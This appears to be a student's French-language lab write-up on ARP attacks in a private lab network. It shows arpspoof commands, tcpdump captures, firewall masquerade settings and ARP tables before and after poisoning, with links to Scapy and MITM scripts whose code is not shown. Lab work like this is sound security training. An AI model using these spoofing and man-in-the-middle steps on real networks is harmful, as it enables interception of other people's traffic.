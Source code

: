 #🌞 Empoisonnez la table ARP de node2.tp1.my
Ouvrir un terminal dans node2.tp1.my
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether   00:15:5d:01:01:03   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0

Ouvrir un terminal dans node1.tp1.my
sudo tcpdump -w arp_spoof_1.pcap

Ouvrir un autre terminal dans node1.tp1.my
sudo arpspoof -t 10.1.1.101 10.1.1.253


Ouvrir un terminal dans node2.tp1.my
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether   00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0

#🌞 Ecrire un script Scapy qui fait le travail de arpspoof
Le [script python](./arp_spoof.py)
La [capture Wireshark](./arp_spoof_2.pcap)

#🌞 Mettre en place un MITM ARP
sudo firewall-cmd --add-masquerade --permanent
sudo firewall-cmd --reload

Ouvrir un terminal dans dhcp.tp1.my
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.101               ether   00:15:5d:01:01:05   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0

Ouvrir un terminal dans node2.tp1.my
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253               ether   00:15:5d:01:01:03   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0

Ouvrir un terminal dans node1.tp1.my
sudo tcpdump -w arp_spoof_1.pcap

Ouvrir un terminal dans node1.tp1.my
Le [script python](./arp_mitm_1.py)
La [capture Wireshark](./arp_mitm_1.pcap)

sudo python arp_mitm_1.py

Ouvrir un terminal dans node2.tp1.my
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether  00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0

Ouvrir un terminal dans dhcp.tp1.my
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.101               ether   00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0